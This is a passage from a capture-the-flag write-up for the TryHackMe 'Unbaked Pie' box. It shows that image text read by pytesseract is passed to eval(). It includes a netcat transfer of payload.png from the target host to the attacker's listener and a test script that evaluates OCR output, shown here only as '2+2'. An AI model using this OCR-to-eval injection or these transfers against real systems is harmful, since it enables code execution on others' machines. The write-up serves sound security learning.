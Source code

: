 **So, our souce (User input) is the `payload.png` image file, and the sink is `eval(LISTED)`.**

**Armed with above information, we can create an image that contains a malicious command!**

**But first, let's transfer the `payload.png`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:01:56]
└> nc -lnvp 4444 > payload.png
listening on [any] 4444 ...

ramsey@unbaked:~$ nc 10.9.0.253 4444 < payload.png
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113100302.png)

**Then, we can write a python script to test the payload:**
```py
#!/usr/bin/env python3

from PIL import Image
import pytesseract

LISTED = pytesseract.image_to_string(Image.open('payload.png'))

print(LISTED)
print(eval(LISTED))
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:08:08]
└> python3 extract_string_from_image.py
2+2

4
```

Cool.
